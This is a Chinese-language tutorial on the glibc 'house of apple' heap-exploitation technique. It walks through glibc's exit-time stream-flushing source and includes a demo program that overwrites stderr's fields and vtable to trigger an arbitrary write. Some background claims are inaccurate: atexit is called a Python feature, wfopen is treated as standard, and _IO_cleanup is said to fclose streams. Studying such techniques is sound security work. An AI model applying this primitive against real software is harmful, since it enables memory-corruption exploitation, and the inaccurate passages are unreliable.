



# 利用条件
使用 house of apple 的条件为：
1. 程序从 main 函数返回或能调用 exit 函数。
2. 能泄露出堆地址和 libc 地址。
3. 能使用一次 largebin attack（一次即可）。

#  利用原理
在基于 amd64 架构的程序中，当执行流到达 main 函数末尾，或显式调用 C 库中的 exit 函数时，程序会正常终止。正常终止过程中会进行一系列清理工作，例如关闭所有打开的流（尤其是标准 I/O 流），以确保数据不会丢失，并确保所有缓冲的输出都被写入对应的文件或设备。

这个过程的实现细节涉及 C 标准库的一些内部函数，下面列出的函数调用链就是这些细节实现的一部分。接下来结合源码解释这个过程：

1. exit：当应用程序调用 exit 函数时，C 标准库执行清理工作、释放资源，实现程序的正常终止。

2. fcloseall：这通常是 C 库内部的一个函数，作用是关闭当前进程打开的所有文件流（FILE 对象）。有些 C 标准库和 C 运行时可能不对外提供 fcloseall，因此它可能是平台相关的。

3. _IO_cleanup：这是 glibc 中用于清理所有带缓冲的 I/O 流的内部函数。它尽量确保所有缓冲区都被刷新和清理，并且所有输出都被写入对应的文件描述符。

4. _IO_flush_all_lockp：这个函数遍历所有已注册的 FILE 流并尝试刷新它们的缓冲区，把所有输出写入底层文件描述符。名字中的 lockp 表示执行过程中会对每个流加锁以保证线程安全。

5. _IO_OVERFLOW：_IO_OVERFLOW 是 FILE 流操作的一部分，是 FILE 流的虚函数表（即 vtable）中覆盖或实现的操作之一。当缓冲区已满、需要把数据写入底层介质时会调用这个函数。

6. 最后，每个 _IO_FILE 结构体中都嵌有一个指向虚函数表（vtable）的指针。这个虚函数表包含指向各种操作实现的函数指针，例如用于处理缓冲区满时多余数据的 _overflow。在清理过程中，_IO_flush_all_lockp 检查 _IO_list_all 链表（这是 glibc 管理的全局 FILE 流链表），并对每个 FILE 对象执行相应操作。如果满足条件（例如流处于写模式且有未刷新的数据），就会调用 vtable 中 _overflow 函数指针所指向的函数。

# 详细代码

```c
int  __fcloseall (void)
{
   /* Close all streams.  */
  return _IO_cleanup ();
}
```

```c
int
_IO_cleanup (void)
{
  /* We do *not* want locking.  Some threads might use streams but
     that is their problem, we flush them underneath them.  */
  int result = _IO_flush_all_lockp (0);

  /* We currently don't have a reliable mechanism for making sure that
     C++ static destructors are executed in the correct order.
     So it is possible that other static destructors might want to
     write to cout - and they're supposed to be able to do so.

     The following will make the standard streambufs be unbuffered,
     which forces any output from late destructors to be written out. */
  _IO_unbuffer_all ();

  return result;
}
```

```c

int
_IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  FILE *fp;

#ifdef _IO_MTSAFE_IO
  _IO_cleanup_region_start_noarg (flush_cleanup);
  _IO_lock_lock (list_all_lock);
#endif

  for (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
    {
      run_fp = fp;
      if (do_lock)
	_IO_flockfile (fp);

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;

      if (do_lock)
	_IO_funlockfile (fp);
      run_fp = NULL;
    }

#ifdef _IO_MTSAFE_IO
  _IO_lock_unlock (list_all_lock);
  _IO_cleanup_region_end (0);
#endif

  return result;
}
```

```bash
这里需要将` (   (   (    fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base  ) || (   _IO_vtable_offset (fp) == 0&& fp->_mode > 0 && (   fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base  )  )  ) && _IO_OVERFLOW (fp, EOF) == EOF)`
	  的 ( fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base )满足或者为( _IO_vtable_offset (fp) == 0&& fp->_mode > 0 && ( fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base ) )满足，这样才能调用到_IO_OVERFLOW (fp, EOF) == EOF，因为在    && 中的判断，如果前一个为0，那么后一个将不会判断。

```
此时，由于我们已经提前把 fp->vtable 改成了 _IO_wstrn_jumps，_IO_OVERFLOW 函数就会调用 _IO_wstrn_overflow 函数。
```c
#define _IO_OVERFLOW(FP,CH) JUMP1 (__overflow, FP, CH)
扩展到:

((IO_validate_vtable ((*(__typeof__ (((struct _IO_FILE_plus){}).vtable) *)(((char *) ((fp))) + __builtin_offsetof (struct _IO_FILE_plus, vtable)))))->__overflow) (fp, (-1))
```

```c
const struct _IO_jump_t _IO_wstrn_jumps libio_vtable attribute_hidden =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_wstr_finish),
  JUMP_INIT(overflow, (_IO_overflow_t) _IO_wstrn_overflow),
  JUMP_INIT(underflow, (_IO_underflow_t) _IO_wstr_underflow),
  JUMP_INIT(uflow, (_IO_underflow_t) _IO_wdefault_uflow),
  JUMP_INIT(pbackfail, (_IO_pbackfail_t) _IO_wstr_pbackfail),
  JUMP_INIT(xsputn, _IO_wdefault_xsputn),
  JUMP_INIT(xsgetn, _IO_wdefault_xsgetn),
  JUMP_INIT(seekoff, _IO_wstr_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_default_setbuf),
  JUMP_INIT(sync, _IO_default_sync),
  JUMP_INIT(doallocate, _IO_wdefault_doallocate),
  JUMP_INIT(read, _IO_default_read),
  JUMP_INIT(write, _IO_default_write),
  JUMP_INIT(seek, _IO_default_seek),
  JUMP_INIT(close, _IO_default_close),
  JUMP_INIT(stat, _IO_default_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};

```

_IO_wstrn_overflow 会修改 fp->_wide_data 的前 64 个字节，其中 _IO_wsetb 修改了 16 个字节。

```c
static wint_t
_IO_wstrn_overflow (FILE *fp, wint_t c)
{
  /* When we come to here this means the user supplied buffer is
     filled.  But since we must return the number of characters which
     would have been written in total we must provide a buffer for
     further use.  We can do this by writing on and on in the overflow
     buffer in the _IO_wstrnfile structure.  */
  _IO_wstrnfile *snf = (_IO_wstrnfile *) fp;

  if (fp->_wide_data->_IO_buf_base != snf->overflow_buf)
    {
      _IO_wsetb (fp, snf->overflow_buf,
		 snf->overflow_buf + (sizeof (snf->overflow_buf)
				      / sizeof (wchar_t)), 0);

      fp->_wide_data->_IO_write_base = snf->overflow_buf;
      fp->_wide_data->_IO_read_base = snf->overflow_buf;
      fp->_wide_data->_IO_read_ptr = snf->overflow_buf;
      fp->_wide_data->_IO_read_end = (snf->overflow_buf
				      + (sizeof (snf->overflow_buf)
					 / sizeof (wchar_t)));
    }

  fp->_wide_data->_IO_write_ptr = snf->overflow_buf;
  fp->_wide_data->_IO_write_end = snf->overflow_buf;

  /* Since we are not really interested in storing the characters
     which do not fit in the buffer we simply ignore it.  */
  return c;
}
```
注意这里的 `free (f->_wide_data->_IO_buf_base)`：如果 _IO_buf_base 是某个非法值，会导致程序报错崩溃，使最后的赋值修改无效，所以需要绕过。
可以选择让 `f->_wide_data->_IO_buf_base 为0              或者              !(f->_flags2 & _IO_FLAGS2_USER_WBUF)` 为 0 来绕过。

```c
#define _IO_FLAGS2_USER_WBUF 8
```

```c
void
_IO_wsetb (FILE *f, wchar_t *b, wchar_t *eb, int a)
{
  if (f->_wide_data->_IO_buf_base && !(f->_flags2 & _IO_FLAGS2_USER_WBUF))
    free (f->_wide_data->_IO_buf_base);
  f->_wide_data->_IO_buf_base = b;
  f->_wide_data->_IO_buf_end = eb;
  if (a)
    f->_flags2 &= ~_IO_FLAGS2_USER_WBUF;
  else
    f->_flags2 |= _IO_FLAGS2_USER_WBUF;
}
```

## 输出流
在 C 语言中，“输出流”是指向某个输出目标的抽象接口，这个目标可以是文件、设备或其他数据接收端。输出流允许你把数据写入某个目标，例如磁盘上的文件或程序的标准输出（通常是屏幕）。标准 C 提供了 FILE 类型的对象来表示这样的流。

当我们说“所有打开的输出流”时，指的是程序中当前处于打开状态、用于写入数据的所有 FILE 对象，不包括仅用于读取数据的输入流。

在 C 程序中，标准输出（stdout）和标准错误（stderr）属于默认打开的输出流。你还可以使用 fopen、freopen 或 fdopen 等函数手动打开由其他文件生成的输出流。这些手动打开的文件流，连同标准输出和标准错误，构成了程序的“所有打开的输出流”。

例如：


```c
FILE *file1 = fopen("output1.txt", "w");
FILE *file2 = fopen("output2.txt", "w");

// 现在我们有两个打开的输出流，file1 和 file2。
// 连同标准输出 stdout 和标准错误 stderr，这是当前程序的所有打开的输出流。
```

 
使用标准 C 库函数 fflush() 可以刷新特定的输出流。如果把 NULL 作为参数传给 fflush()，它会尝试刷新所有输出流。

```c
fflush(NULL); // 尝试刷新所有打开的输出流。
```

 
这个操作确保所有缓冲的输出（即暂存在内存中的输出）都被发送到各自的文件或设备。由于直接操作流的内部行为通常是不安全的，建议始终使用标准库提供的函数来管理文件和流。
## _IO_flush_all_lockp
_IO_flush_all_lockp 函数的作用是刷新所有打开的输出流的缓冲区。在标准 C 库中，当你向输出流写入数据时（例如使用 printf 或 fwrite），数据通常先存放在缓冲区中。只有在某些情况下，例如缓冲区已满、显式调用 fflush()，或流被正常关闭（例如程序终止）时，缓冲区的内容才会真正写入对应的文件或设备。
## flcoseall

当 C 程序的 main 函数执行完毕返回，或通过调用 exit 函数请求终止程序时，通常会触发一个清理和关闭的过程。在这个过程中，所有打开的标准 I/O 流都会被关闭。这是由 C 标准 I/O 库管理的。

glibc（GNU C Library）提供的 C 标准库遵循这些约定，但 fcloseall 并不是 ISO C 标准的一部分，而是 GNU 扩展。在某些 C 标准库实现中，可能会有类似 fcloseall 的函数用来关闭所有打开的文件流。不过对于标准流（stdin、stdout、stderr），C 标准要求它们在程序退出时被自动关闭。

具体到 glibc 的实现：

1. 当程序从 main 返回退出或调用 exit 函数时，会触发终止处理程序。终止处理程序按照注册顺序的逆序调用所有通过 atexit 注册的函数。

2. 程序启动时，glibc 会注册一个名为 _IO_cleanup 的函数，程序退出时由 exit 调用，负责关闭所有打开的文件流。

3. 在 _IO_cleanup 函数内部，它遍历文件流链表并逐个调用 fclose。

4. fclose 函数刷新缓冲区中剩余的数据（对于输出流），关闭文件描述符，并释放相应的资源。

5. 关闭的流包括标准输入、输出和错误流（stdin、stdout、stderr），除非它们已被手动关闭。

6. 关闭所有流之后，程序终止并把控制权交还给操作系统。

## 宽字符
宽字符是 C/C++ 编程语言中的一种数据类型，用于表示比标准字符（char）类型更宽的字符集。标准字符通常是 8 位，只够表示 ASCII 字符集。相比之下，宽字符（通常是 wchar_t 类型）可以是 16 位或 32 位，能够表示更大范围的字符集，例如 Unicode 中的字符。

宽字符 I/O 操作是指针对宽字符数据类型的输入/输出操作。在 C/C++ 标准库中，有专门处理宽字符的函数，与处理普通字符的函数一一对应。例如，对于标准 char 的 I/O 操作，可能会使用 printf、scanf、fopen 等函数，而对于宽字符操作则使用 wprintf、wscanf、wfopen 等函数。这些函数使程序员能够正确地读写宽字符和宽字符串，确保字符在不同环境（如不同操作系统或不同区域设置）下都能被正确处理。

下面是一些常见的宽字符 I/O 函数示例：

- wprintf 和 wscanf：这些函数类似于 printf 和 scanf，但用于宽字符串的格式化输入和输出。
- fgetws 和 fputws：这些函数分别从文件读取和向文件写入宽字符串，类似于 fgets 和 fputs。
- wfopen：这个函数用于打开文件，类似于 fopen，但它要求文件名是宽字符串而不是普通字符串。
## int atexit(void (*func)(void))
atexit 函数是 C 和 Python 中一个非常有用的功能。它允许你注册一个或多个函数，在程序正常终止时自动执行。

在 C 中，atexit 函数定义在 stdlib.h 头文件中，其原型为：

```c
int atexit(void (*func)(void));
```

 
你可以调用 atexit 函数，并传入一个无参数、无返回值的函数指针（即函数名）。当程序通过 return 从 main 函数退出或调用 exit 函数时，这个注册的函数就会被执行。如果注册了多个函数，它们会按逆序执行（即后注册的函数先执行）。

下面是在 C 中使用 atexit 的一个例子：

```c

#include <stdio.h>
#include <stdlib.h>

void goodbye(void) {
    printf("Goodbye, world!\n");
}

int main() {
    // 注册 goodbye 函数。在 main 结束之前会执行。
    atexit(goodbye);

    printf("Hello, world!\n");

    // 程序结束时，会调用 goodbye 函数。
    return 0;
}
```

 
输出将是：

```c
Hello, world!
Goodbye, world!
```

# 演示

```c
#include<stdio.h>
#include<stdlib.h>
#include<stdint.h>
#include<unistd.h>
#include <string.h>

void main()
{
    setbuf(stdout, 0);
    setbuf(stdin, 0);
    setvbuf(stderr, 0, 2, 0);
    puts("[*] allocate a 0x100 chunk");
    size_t *p1 = malloc(0xf0);
    size_t *tmp = p1;
    size_t old_value = 0x1122334455667788;
    for (size_t i = 0; i < 0x100 / 8; i++)
    {
        p1[i] = old_value;
    }
    puts("===========================old value=======================");
    for (size_t i = 0; i < 4; i++)
    {
        printf("[%p]: 0x%016lx  0x%016lx\n", tmp, tmp[0], tmp[1]);
        tmp += 2;
    }
    puts("===========================old value=======================");

    size_t puts_addr = (size_t)&puts;
    printf("[*] puts address: %p\n", (void *)puts_addr);

    size_t stderr_mode_ptr=puts_addr + 0x19a910;
    printf("[*] stderr->_mode address: %p\n", (void *)puts_addr);

    size_t stderr_write_ptr_addr = puts_addr + 0x19a878;
    printf("[*] stderr->_IO_write_ptr address: %p\n", (void *)stderr_write_ptr_addr);
    
    size_t stderr_flags2_addr = puts_addr + 0x19a8c4;
    printf("[*] stderr->_flags2 address: %p\n", (void *)stderr_flags2_addr);
    
    size_t stderr_wide_data_addr = puts_addr + 0x19a8f0;
    printf("[*] stderr->_wide_data address: %p\n", (void *)stderr_wide_data_addr);
    
    size_t sdterr_vtable_addr = puts_addr + 0x19a928;
    printf("[*] stderr->vtable address: %p\n", (void *)sdterr_vtable_addr);
    
    size_t _IO_wstrn_jumps_addr = puts_addr + 0x195f70;
    printf("[*] _IO_wstrn_jumps address: %p\n", (void *)_IO_wstrn_jumps_addr);

    puts("[+] step 1: change stderr->_mode to 0");
    *(int *)stderr_mode_ptr=0;

    puts("[+] step 2: change stderr->_IO_write_ptr to -1");
    *(size_t *)stderr_write_ptr_addr = (size_t)-1;

    puts("[+] step 3: change stderr->_flags2 to 8");
    *(size_t *)stderr_flags2_addr = 8;

    puts("[+] step 4: replace stderr->_wide_data with the allocated chunk");
    *(size_t *)stderr_wide_data_addr = (size_t)p1;

    puts("[+] step 5: replace stderr->vtable with _IO_wstrn_jumps");
    *(size_t *)sdterr_vtable_addr = (size_t)_IO_wstrn_jumps_addr;

    puts("[+] step 6: call fcloseall and trigger house of apple");
    fcloseall();

    tmp = p1;
    puts("===========================new value=======================");
    for (size_t i = 0; i < 4; i++)
    {
        printf("[%p]: 0x%016lx  0x%016lx\n", tmp, tmp[0], tmp[1]);
        tmp += 2;
    }
    puts("===========================new value=======================");
}
```

```c
即将进入_IO_flush_all_lockp的    
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
的fp的结构图如下
```






[参考链接 1](https://www.cnblogs.com/LynneHuan/p/16387344.html#%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF)

